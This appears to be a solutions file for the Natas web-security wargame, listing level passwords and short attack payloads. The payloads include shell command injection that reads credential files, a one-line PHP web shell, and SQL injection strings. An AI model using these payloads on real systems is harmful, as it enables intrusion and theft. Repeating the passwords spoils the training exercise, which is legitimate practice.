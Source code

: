 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* username=natas16" and hex(password) like "576149484561636a3633776e4e4942524f4865716933703974306d356e686d68%";-- -
* WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### Level 17
* 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level18
* xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### Level19
* 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level20
* payload: %0aadmin+1
* eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### Level21
* IFekPyrQXftziDEsUr3x21sYuahypdgJ

#### Level22
* La pagina1 no tiene la cookie con la key admin. Se modifica la cookie en la pagina2 con el parametro vulnerable y despues se reemplaza la cookie en la pagina1.
* chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

#### Level23
* D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

